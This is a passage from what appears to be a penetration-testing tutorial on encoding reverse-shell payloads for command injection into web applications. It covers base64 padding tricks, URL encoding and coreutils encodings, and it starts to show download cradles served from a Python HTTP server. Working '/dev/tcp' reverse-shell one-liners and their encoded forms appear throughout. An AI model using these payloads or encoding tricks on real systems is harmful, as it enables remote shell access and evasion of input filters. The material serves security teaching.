 ```js
	    input = input + '  '
    } else if (b64[b64.length-1] == '=') {
	    input = input + ' '
    }
	return [btoa(input), input]
}

ascii_only_b64("sh -i >& /dev/tcp/127.1.1.10/9001 0>&1")
```
## URL encoding
Since we’re assuming the target to be a web application, probably the most obvious alternative way would be to just URL encode the payload. This would work in many cases but, as it turns out, URL encoding is not as simple as it may seem…

* [https://blog.lunatech.com/posts/2009-02-03-what-every-web-developer-must-know-about-url-encoding](https://blog.lunatech.com/posts/2009-02-03-what-every-web-developer-must-know-about-url-encoding)
* [https://stackoverflow.com/questions/2322764/what-characters-must-be-escaped-in-an-http-query-string/31300627#31300627](https://stackoverflow.com/questions/2322764/what-characters-must-be-escaped-in-an-http-query-string/31300627#31300627)
* [https://www.rfc-editor.org/rfc/rfc3986](https://www.rfc-editor.org/rfc/rfc3986)

## Other encoding formats
Another option would be to use the URL safe version of base64 or even a different encoding scheme entirely. The problem here is availability as even though an encoding such as [base62](https://github.com/tuupola/base62) may solve our problems completely. It may just not be available on the target system and uploading it brings its own set of issues. Limiting ourselves to encoding utilities found in [coreutils](https://www.gnu.org/software/coreutils/manual/coreutils.html), we have a few options:
```bash
$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE=

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' |  basenc.exe --base64url
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA-JjE=

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' | base32
ONUCALLJEA7CMIBPMRSXML3UMNYC6MJQFYYTALRRGAXDCMBPGEZTSIBQHYTDC===

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' |  basenc.exe --base32hex
EDK20BB940V2C81FCHINCBRKCDO2UC9G5OOJ0BHH60N32C1F64PJI81G7OJ32===

$ echo -n 'sh -i >& /dev/tcp/10.10.10.10/139 0>&1' |  basenc.exe --base16
7368202D69203E26202F6465762F7463702F31302E31302E31302E31302F31333920303E2631
```
Problem is that with smaller alphabet sizes the encoded payload can grow in size significantly.

## Cradles?
Many issues with special characters can be mitigated by using a cradle. For example save your payload to a file and start a basic HTTP server with (I’d recommend making a dedicated folder for files shared this way):
```bash
$ mkdir www && cd www
$ echo echo the index file > index.html
$ echo echo the other file > otherfile.woff
$ python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```
(If you save the file into `index.html`, you won’t have to add the path to the URI! Also, if you make the server listen on port 80 you won’t have to include the port either; though that requires root)
